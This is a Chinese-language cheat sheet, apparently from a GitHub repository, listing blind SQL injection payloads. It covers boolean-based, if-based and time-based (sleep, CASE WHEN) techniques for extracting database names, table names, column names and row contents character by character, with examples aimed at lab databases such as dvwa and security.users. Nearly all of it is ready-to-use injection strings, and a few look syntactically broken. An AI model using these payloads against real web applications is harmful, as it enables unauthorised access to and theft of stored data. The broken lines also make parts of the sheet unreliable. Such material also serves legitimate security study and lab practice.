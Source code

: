 # SQL 注入-盲注手法

---------------------
+ 基于布尔的盲注

```mysql
Length（）  #函数 返回字符串的长度
Substr（）  #截取字符串
Ascii（）   #返回字符的ascii码
ord（）     #类似于ascii码
mid（）     #和substr用法相同
```

-----------------------

+ **以下操作请使用二分法**
   + **报数据库名**
    ```mysql
    http://url/?id=1'and (length(database()))>10--%20  #测试数据库名的长度
    http://url/?id=1%27 and ord(substr(database(),1,1))=118--%20  #爆出数据库名的第一位
    http://url/?id=1%27 and ord(substr(database(),2,1))=118--%20  #爆出数据库名的第二位
    ```
**后面依次类推...**
---------------------

+ **猜解指定数据库下的表名长度**
```mysql
?id=1' and length((select table_name from information_schema.tables where table_schema='dvwa'  limit 0,1))>5--%20   #猜解当前数据库中第一张表名的长度
?id=1' and length((select table_name from information_schema.tables where table_schema='dvwa'  limit 1,1))=5--  #猜解当前数据库中第二张表名的长度
```

- **爆表名**
```mysql
?id=1' and ord(mid((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1),1,1))=103--   #猜解dvwa数据库下第一张表的第一个字符的ascii码
?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1),1,1))=103--   #同上
?id=1' and ord(mid((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1),2,1))=103--   #猜解dvwa数据库下第一张表的第二个字符的ascii码
```

**接下来依次类推....**
- **爆字段长度**
```mysql
/?id=1' and length((select column_name from information_schema.columns where table_schema='security'  and table_name='users' limit 0,1))>7--  #猜解指定数据库中的指定表中的第一个字段名长度
/?id=1' and length((select column_name from information_schema.columns where table_schema='security'  and table_name='users' limit 1,1))>7--  #猜解指定数据库中的指定表中的第二个字段名长度
```

- **爆字段**
接下来自由发挥吧....
猜解字段内容长度

```mysql
/?id=1' and length(select username from security.users limit 0,1)>3
/?id=1' and length(select username from security.users limit 0,1)>4
```
上述语句为猜解指定数据库与表名中的第一条字段名的长度

- **爆字段内容**

```mysql
/?id=1' and ascii(substr(select username from security.users limit 0,1),1,1)-- - #爆破username字段第1个字符的ascii码
/?id=1' and ascii(substr(select username from security.users limit 0,1),2,1)-- - #爆破username字段第2个字符的ascii码
```

------------------------

# 基于if语句的显注

+ 案例：
>
当id=1 页面呈现"nihao"字符
当id=1 页面呈现"mucn"字符

if语句详解
>if(条件, 值1, 值2)
当条件为真时返回值1，条件为假时返回值2

直接使用if语句构造注入
```mysql
?id=if(1=1,1,2)--+       #如果1=1,那么回显1，也就是回显nihao
?id=if(1=2,1,2)--+       #原理同上
```

-------------------------

## 基于时间的盲注

+ 主要还是基于上面的if语句去判断

```mysql
例子
id=1' if(1=1,sleep(2),2)-- -   #如果1=1那么就执行sleep(2) 然后根据页面的回显时间进行判断前面语句是否正确
```

------------------------
## 判断语句02

**sql语法**
```sql
CASE '值语句'  WHEN '值' THEN '执行语句'  WHEN 2 THEN  sleep(3)  ELSE '其他' END
```
**案例：**
```sql
1') AND (CASE length(database()) WHEN 1 THEN sleep(4) else '0' end) AND ('1'='1
1') AND CASE WHEN length(database())>1 THEN sleep(4) else '0' end) AND ('1'='1
```

以后遇见更多的就再添加
